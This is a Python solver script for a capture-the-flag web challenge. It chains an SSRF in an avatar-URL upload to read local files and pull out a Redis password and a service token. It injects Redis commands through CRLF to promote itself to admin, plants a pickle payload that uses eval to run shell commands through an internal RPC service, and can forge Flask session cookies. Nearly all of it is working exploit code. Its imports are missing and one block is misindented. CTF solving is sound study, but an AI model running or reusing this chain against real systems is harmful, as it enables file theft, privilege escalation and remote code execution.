DEFAULT_TARGET = "http://13b51043-0e90-49a5-8076-4e73cc24f785.29.dart.ccsssc.com"

def rand_text(prefix: str) -> str:
    alphabet = string.ascii_lowercase + string.digits
    return prefix + "".join(secrets.choice(alphabet) for _ in range(12))

def parse_data_uri(html_text: str) -> bytes:
    match = re.search(r"data:([^;]+);base64,([^\"']+)", html_text)
                      if not match:
                      raise ValueError("response does not contain a data URI")
    return base64.b64decode(match.group(2))

def extract_error(html_text: str) -> Optional[str]:
    match = re.search(r"错误信息:</strong> (.*?)</p>", html_text, re.S)
    return match.group(1).strip() if match else None

def build_pickle_payload(py_expr: str) -> bytes:
    return (
        b"cbuiltins\ngetattr\n"
        b"p0\n"
        b"(g0\nV__self__\ntR"
        b"p1\n"
        b"g0\n"
        b"(g1\nVeval\ntR"
        b"(V" + py_expr.encode() + b"\ntR."
    )

def forge_flask_session(secret_key: str, session_data: Optional[dict] = None) -> str:
    from flask import Flask
    from flask.sessions import SecureCookieSessionInterface

    app = Flask(__name__)
    app.secret_key = secret_key
    serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    if serializer is None:
        raise RuntimeError("could not create Flask session serializer")
    payload = session_data or {
        "logged_in": True,
        "username": "hacker",
        "role": "admin",
    }
    return serializer.dumps(payload)

def resp_bulk(parts: Iterable[bytes]) -> bytes:
    parts = list(parts)
    out = f"*{len(parts)}\r\n".encode()
    for part in parts:
        if isinstance(part, str):
            part = part.encode()
        out += f"${len(part)}\r\n".encode() + part + b"\r\n"
    return out

def build_redis_ssrf_url(redis_password: str, command_bytes: bytes) -> str:
    raw = resp_bulk([b"AUTH", redis_password.encode()]) + command_bytes + resp_bulk([b"QUIT"])
    return "http://127.0.0.1:6379/?\r\n" + raw.decode("latin1") + "X: y"

class Solver:
    def __init__(self, target: str):
        self.target = target.rstrip("/")
        self.session = requests.Session()
        self.username = rand_text("u")
        self.password = rand_text("p")
        self.redis_password: Optional[str] = None
        self.mcp_token: Optional[str] = None

    def post_avatar_url(self, avatar_url: str) -> requests.Response:
        return self.session.post(
            f"{self.target}/profile/avatar",
            data={"upload_type": "从URL下载", "avatar_url": avatar_url},
            timeout=20,
        )

    def read_file(self, path: str) -> bytes:
        response = self.post_avatar_url("file://" + path)
        error = extract_error(response.text)
        if error:
            raise RuntimeError(f"{path}: {error}")
        return parse_data_uri(response.text)

    def register_and_login(self) -> None:
        for _ in range(5):
            register_resp = self.session.post(
                f"{self.target}/register",
                data={
                    "username": self.username,
                    "password": self.password,
                    "confirm_password": self.password,
                },
                timeout=20,
            )
            if register_resp.status_code != 200:
                raise RuntimeError(f"register failed with {register_resp.status_code}")

            if "用户名已存在" in register_resp.text:
                self.username = rand_text("u")
                self.password = rand_text("p")
                continue

            if "注册成功" not in register_resp.text:
                raise RuntimeError("register did not return a success page")

            login_resp = self.session.post(
                f"{self.target}/login",
                data={"username": self.username, "password": self.password},
                allow_redirects=False,
                timeout=20,
            )
            if login_resp.status_code == 302:
                return

        raise RuntimeError("initial login failed")

    def find_redis_password(self) -> str:
        config = self.read_file("/etc/redis/redis.conf").decode("utf-8", "replace")
        match = re.search(r"^requirepass\s+(\S+)$", config, re.M)
        if not match:
            raise RuntimeError("could not find Redis password in redis.conf")
        self.redis_password = match.group(1)
        return self.redis_password

    def find_mcp_token(self) -> str:
        cmdline = None
        for pid in range(1, 80):
            try:
                data = self.read_file(f"/proc/{pid}/cmdline")
            except Exception:
                continue
            if b"/opt/mcp_service/" in data:
                cmdline = data.replace(b"\x00", b" ").decode("utf-8", "replace")
                break
        if cmdline is None:
            raise RuntimeError("could not find MCP service process")

        match = re.search(r"(/opt/mcp_service/\S+\.py)", cmdline)
        if not match:
            raise RuntimeError("could not extract MCP service path")
        code = self.read_file(match.group(1)).decode("utf-8", "replace")

        token_match = re.search(r'self\.auth_token\s*=\s*"([^"]+)"', code)
        if not token_match:
            raise RuntimeError("could not extract MCP token")
        self.mcp_token = token_match.group(1)
        return self.mcp_token

    def redis_blind(self, command_bytes: bytes) -> str:
        if self.redis_password is None:
            raise RuntimeError("Redis password is not initialized")
        url = build_redis_ssrf_url(self.redis_password, command_bytes)
        response = self.post_avatar_url(url)
        return extract_error(response.text) or "ok"

    def promote_to_admin(self) -> None:
        command = resp_bulk(
            [b"HSET", f"user:{self.username}".encode(), b"role", b"admin"]
        )
        self.redis_blind(command)
        self.session.get(f"{self.target}/logout", timeout=20)
        login_resp = self.session.post(
            f"{self.target}/login",
            data={"username": self.username, "password": self.password},
            allow_redirects=False,
            timeout=20,
        )
        if login_resp.status_code != 302:
            raise RuntimeError("re-login after role flip failed")

        home = self.session.get(f"{self.target}/home", timeout=20).text
        if "/admin/online-users" not in home:
            raise RuntimeError("role flip did not produce an admin session")

    def write_malicious_online_user(self) -> None:
        if self.mcp_token is None:
            raise RuntimeError("MCP token is not initialized")
        command = (
            "sh -c \"cat /flag 2>/dev/null || "
            "cat /root/flag 2>/dev/null || "
            "cat /home/ctf/flag 2>/dev/null || "
            "cat /app/flag 2>/dev/null\""
        )
        expr = (
            "__import__('types').SimpleNamespace("
            "username=__import__('xmlrpc.client').client.ServerProxy("
            "'http://127.0.0.1:54321/RPC2'"
            ").execute_command("
            + repr(self.mcp_token)
            + ","
            + repr(command)
            + ")['stdout'].strip(),"
            "role='admin',"
            "login_time='2026-01-01 00:00:00',"
            "expiry_time='2999-01-01 00:00:00',"
            "ip_address='127.0.0.1'"
            ")"
        )
        payload = build_pickle_payload(expr)
        command_bytes = resp_bulk(
            [b"SET", f"online_user:{self.username}".encode(), payload]
        )
        self.redis_blind(command_bytes)

    def fetch_flag(self) -> str:
        page = self.session.get(f"{self.target}/admin/online-users", timeout=20).text
        flag_match = re.search(
            r"(?:flag|dart|ctf|DASCTF|CCSSSC)\{[^<\s]+\}", page, re.I
        )
        if not flag_match:
            raise RuntimeError("flag not found in admin page")
        return flag_match.group(0)

def run_solver(target: str) -> str:
    solver = Solver(target)
    solver.register_and_login()
    solver.find_redis_password()
    solver.find_mcp_token()
    solver.promote_to_admin()
    solver.write_malicious_online_user()
    return solver.fetch_flag()

def main() -> int:
    parser = argparse.ArgumentParser(
        description="CTF solver for the Flask + Redis + RestrictedUnpickler challenge."
    )
    parser.add_argument("--target", default=DEFAULT_TARGET, help="base target URL")
    parser.add_argument(
        "--print-pickle",
        metavar="PY_EXPR",
        help="only print the raw opcode pickle for the supplied Python expression",
    )
    parser.add_argument(
        "--forge-session",
        metavar="SECRET_KEY",
        help="only print a forged Flask session cookie for the default admin payload",
    )
    args = parser.parse_args()

    if args.print_pickle:
        sys.stdout.buffer.write(build_pickle_payload(args.print_pickle))
        sys.stdout.buffer.write(b"\n")
        return 0

    if args.forge_session:
        print(forge_flask_session(args.forge_session))
        return 0

    flag = run_solver(args.target)
    print(flag)
    return 0

if __name__ == "__main__":
    raise SystemExit(main())
```
